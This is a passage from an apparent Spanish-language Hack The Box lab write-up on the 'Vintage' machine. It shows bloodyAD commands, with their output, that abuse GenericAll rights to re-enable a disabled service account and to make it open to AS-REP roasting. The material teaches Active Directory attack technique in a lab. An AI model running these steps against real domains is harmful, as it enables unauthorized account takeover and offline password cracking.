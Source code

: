 
## Abusing AD DACL - `GenericAll` Rights

El grupo `SERVICEMANAGERS` posee derechos `GenericAll` sobre las cuentas `svc_ark`, `svc_sql` y `svc_ldap`. Con los permisos actuales, podremos activar la cuenta del usuario `svc_sql`, la cual se encuentra deshabilitada

![image-center](/assets/images/posts/vintage-bloodhound-4.png)

Emplearemos el siguiente comando para quitar el atributo `ACCOUNTDISABLE` a la cuenta `svc_sql`. Esto activará la cuenta de servicio para poder utilizarla en futuros ataques

~~~ bash
bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.10.11.45 -u 'GMSA01$' -k remove uac SVC_SQL -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
~~~

> Si usamos esta cuenta por demasiado tiempo, considera ejecutar este comando para activarla cuando loa necesites (recuerda tener los privilegios suficientes)
{: .notice--danger}


## AS-REP Roast

Además, haremos que la cuenta `svc_sql` sea vulnerable a `AS-REP Roast` añadiendo la propiedad de `DONT_REQUIRE_PREAUTH`

~~~ bash
bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.10.11.45 -u 'GMSA01$' -k add uac SVC_SQL -f DONT_REQ_PREAUTH

[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl
~~~

